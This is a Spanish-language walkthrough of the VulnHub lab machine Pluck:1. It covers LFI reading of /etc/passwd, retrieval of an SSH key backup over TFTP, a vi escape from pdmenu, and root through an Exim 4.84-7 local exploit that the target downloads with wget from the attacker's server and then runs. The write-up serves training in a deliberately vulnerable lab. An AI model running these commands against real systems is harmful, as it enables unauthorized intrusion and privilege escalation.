

# 🚀 Máquina Pluck:1 - VulnHub Walkthrough

---

## 📝 Teoría

### ¿Qué vamos a explotar?

En esta máquina encontramos una combinación de vulnerabilidades típicas:

1. **Local File Inclusion (LFI)** con [[Tecnica Wrapper]]
2. **Backup inseguro** accesible via [[tftp]]
3. **SSH con claves privadas expuestas**
4. **Escalada de privilegios** mediante exploit de [[exim]]

---

## 🛠️ Práctica: Walkthrough Completo

### 1. Reconocimiento inicial

> [!info] URL vulnerable detectada
> `http://localhost/index.php?page=admin.php`
> 
> Esto nos permite jugar con [[Tecnica Wrapper]]

#### Explotando LFI para leer archivos

```bash
# Leer /etc/passwd
http://localhost/index.php?page=/etc/passwd
```

#### Descubrimiento del archivo backup.sh

![[Pasted image 20250927172129.png]]

**Contenido del archivo:**

![[Pasted image 20250927172221.png]]

> [!tip] Información clave
> El script revela que hace **backups** en el directorio `backups` y que podemos obtenerlos via [[tftp]].

---

### 2. Extracción de archivos via TFTP

#### Descargar el backup

```bash
# Conectar al servidor TFTP y descargar backup
tftp <target_ip>
tftp> get backups/backup.tar.gz
tftp> quit
```

#### Descomprimir y analizar

```bash
tar -xf backups/backup.tar.gz
```

> [!example] Contenido del backup
> Al descomprimirlo encontramos **directorios con claves SSH públicas y privadas**.

---

### 3. Acceso SSH con clave privada

#### Usar la clave encontrada

```bash
ssh paul@192.168.111.46 -i id_key4
```

> [!warning] Restricción detectada
> El usuario `paul` tiene `/home/paul:/usr/bin/pdmenu` como shell, lo que restringe las acciones disponibles.

---

### 4. Bypass de pdmenu y obtención de shell

#### Escapar de pdmenu usando vi

En el menú **pdmenu** hay una opción `edit file`. Al seleccionarla:

1. Abrimos `/etc/passwd` 
2. Esto nos da acceso a **vi**
3. Consultamos [[GTFOBins]] para escapar de vi

#### Ejecutar escape via GTFOBins

```bash
# Dentro de vi, ejecutar:
:set shell=/bin/bash
:shell
```

#### Mejorar la terminal

```bash
export TERM=xterm
```

---

### 5. Escalada de privilegios

#### Reconocimiento post-explotación

Aplicamos técnicas de [[Post Explotacion - Linux]]:

```bash
# Ver información del usuario
id

# Información del sistema
cat /etc/os-release
uname -a

# Buscar binarios SUID
find / -perm -4000 2>/dev/null
```

#### Descubrimiento de Exim vulnerable

```bash
# Encontramos: /usr/exim/bin/exim-4.84-7
ls -la /usr/exim/bin/exim-4.84-7
```

Este es el servicio [[exim]] versión **4.84-7**.

---

### 6. Explotación de Exim

#### Buscar exploits disponibles

```bash
searchsploit exim 4.84
```

**Resultado:**
```
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Exim - 'perl_startup' Local Privilege Escalation (Metasploit)                                                                 | linux/local/39702.rb
Exim 4.84-3 - Local Privilege Escalation                                                                                      | linux/local/39535.sh
Exim < 4.86.2 - Local Privilege Escalation                                                                                    | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution                                                                               | linux/remote/44571.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                                      | php/webapps/42221.py
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

#### Usar el exploit 39535.sh

**En la máquina atacante:**
```bash
# Descargar el exploit
searchsploit -m linux/local/39535.sh

# Crear servidor HTTP
python3 -m http.server 80
```

**En la máquina vulnerable:**
```bash
# Descargar el exploit
wget http://ip_del_atacante/39535.sh

# Dar permisos de ejecución
chmod +x 39535.sh

# Ejecutar exploit
./39535.sh
```

> [!success] ¡Root obtenido!
> El exploit aprovecha una vulnerabilidad en Exim 4.84-7 para obtener privilegios de root.

---

## 🗺️ Diagrama de flujo del ataque



---

## 📋 Resumen de técnicas utilizadas

| Fase | Técnica | Herramienta/Método |
|------|---------|-------------------|
| **Reconocimiento** | LFI + File Reading | [[Tecnica Wrapper]] |
| **Exfiltración** | Descarga de archivos | [[tftp]] |
| **Acceso inicial** | Autenticación con clave | SSH + clave privada |
| **Bypass** | Escape de shell restringida | [[GTFOBins]] + vi |
| **Escalada** | Local Privilege Escalation | Exploit [[exim]] 4.84-7 |

---

## 🛡️ Lecciones aprendidas

> [!tip] Vectores de ataque identificados
> 1. **LFI sin sanitización** permite leer archivos del sistema
> 2. **TFTP expuesto** facilita la exfiltración de backups
> 3. **Claves SSH en backups** comprometen la autenticación
> 4. **Shells restringidas** pueden ser bypasseadas con GTFOBins
> 5. **Servicios desactualizados** como Exim son vectores de escalada

---

> [!success] ¡Máquina comprometida exitosamente!
> Esta máquina es excelente para practicar múltiples vectores de ataque y técnicas de post-explotación.